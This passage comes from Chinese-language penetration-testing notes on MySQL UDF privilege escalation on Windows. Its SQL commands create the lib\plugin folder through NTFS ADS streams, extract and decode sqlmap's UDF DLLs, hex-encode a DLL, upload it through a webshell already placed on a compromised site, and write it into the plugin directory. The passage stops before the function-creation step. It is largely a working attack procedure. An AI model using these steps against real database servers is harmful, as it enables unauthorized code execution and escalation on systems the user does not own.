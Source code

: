   * PS：MySQL版本高于5.1，创建导出的文件夹

    * /lib/plugin目录本身是不存在的，可以利用NTFS ADS流来创建文件夹

      ```bash
      select 'xxx' into dumpfile 'MySQL目录\\lib::$INDEX_ALLOCATION';
      select 'xxx' into dumpfile 'MySQL目录\\lib\\plugin::$INDEX_ALLOCATION';
      ```
    * 也可以结合webshell直接在MySQL安装路径下创建plugin目录
* 导出DLL文件，将DLL文件导出到指定目录下；

  * 获取方法

    * 在sqlmap/data/udf/mysql/目录下，在Windows目录中有32位和64位dll文件（MySQL位数）
    * 文件夹中的dll文件是通过异或编码的，可以使用sqlmap/extra/cloak.py进行解密
    * **修改**

      > 将udf文件放到指定位置（Mysql>5.1放在Mysql根目录的lib\plugin文件夹下）从udf文件中引入自定义函数(user defined function)执行自定义函数先看第一步，拿到一个网站的webshell之后，在指定位置创建udf文件。如何创建？先别忘了，现在连源udf文件都没有。  
      > sqlmap中有现成的udf文件，分为32位和64位，一定要选择对版本，否则会显示：Can‘t open shared library ‘udf.dll‘。  
      > 获取sqlmap的udf请看链接：MySQL 利用UDF执行命令/52413974然后将获得的udf.dll文件转换成16进制，
      >
      > 一种思路是在本地使用mysql函数hex：
      >
      > ```bash
      > SELECT hex(load_file(0x433a5c5c55736572735c5c6b61316e34745c5c4465736b746f705c5c6c69625f6d7973716c7564665f7379732e646c6c)) into dumpfile ‘C:\\Users\\ka1n4t\\Desktop\\gg.txt‘; 
      > ```
      >
      > load_file中的十六进制是C:\\Users\\ka1n4t\\Desktop\\lib_mysqludf_sys.dll此时gg.txt文件的内容就是udf文件的16进制形式。接下来就是把本地的udf16进制形式通过我们已经获得的webshell传到目标主机上。
      >

      ```bash
      1. CREATE TABLE udftmp (c blob); //新建一个表，名为udftmp，用于存放本地传来的udf文件的内容。
      2. INSERT INTO udftmp values(unhex(‘udf文件的16进制格式‘)); //在udftmp中写入udf文件内容
      3. SELECT c FROM udftmp INTO DUMPFILE ‘H:\\PHPStudy\\PHPTutorial\\MySQL\\lib\\plugin\\udf.dll‘; //将udf文件内容传入新建的udf文件中，路径根据自己的@@basedir修改
      ```
  * 将dll文件上传到mysql的/lib/plugin目录下
* 创建临时表存放DLL/SO文件的十六进制内容

  ```bash
  CREATE TABLE wugua(shellcode BLOB);
  ```

  ​![image](assets/image-20241028185038-cm04jw5.png)​
* 执行SQL语句创建自定义函数：

